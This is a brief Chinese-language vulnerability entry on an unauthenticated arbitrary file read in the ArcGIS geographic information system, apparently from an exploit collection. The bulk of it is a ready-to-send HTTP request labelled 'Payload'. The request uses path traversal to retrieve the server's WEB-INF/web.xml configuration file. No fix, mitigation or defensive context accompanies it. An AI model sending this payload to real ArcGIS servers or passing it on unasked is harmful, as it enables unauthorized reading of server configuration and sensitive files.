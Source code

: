 **漏洞描述：**

ArcGIS地理信息系统 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

**影响版本：**

ArcGIS地理信息系统

**Payload：**

```yaml
GET /arcgis/manager/3370/js/../WEB-INF/web.xml HTTP/1.0
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

---
